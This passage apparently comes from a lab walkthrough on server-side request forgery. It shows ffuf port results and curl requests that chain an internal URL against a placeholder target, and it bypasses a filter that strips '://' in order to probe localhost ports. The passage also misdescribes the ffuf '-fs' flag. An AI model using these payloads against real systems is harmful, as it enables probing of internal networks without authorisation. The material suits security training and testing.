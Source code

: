 ```shell-session
80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
```

The `-u` flag specifies the URL to send requests to. In this case, the URL includes `<TARGET IP>`, which is a placeholder for the IP address of the target machine. The `-fs` flag specifies the minimum number of characters that a response body must have in order to be considered a successful response.

### Curl interacting with the target

```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"
```


The `q` parameter in the URL is being set to another URL that includes the domain `internal.app.local` and the `load` and `q` parameters. This is likely being done in order to test whether the target machine is able to make connections to other servers or services running on the internal network.

### Exercise
#### cURL - Interacting with the Target

```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```

We have received an `unknown url type` error message. It seems the web application is removing `://` from our request. Let's try to overcome this situation by modifying the URL.

```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 99
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:55:10 GMT

<html><body><h1>Resource: http://127.0.0.1:1</h1><a>[Errno 111] Connection refused</a></body></html>
```

In this case, the web application returns some HTML rendered content containing the resource we are trying to fetch. This response will affect our internal service discovery if we use the size of the response as a filter as it will change depending on the port. Fortunately for us, ffuf supports regular expressions (reggex) for filtering. We can use this ffuf feature to use the error number for filtering responses, as follows.
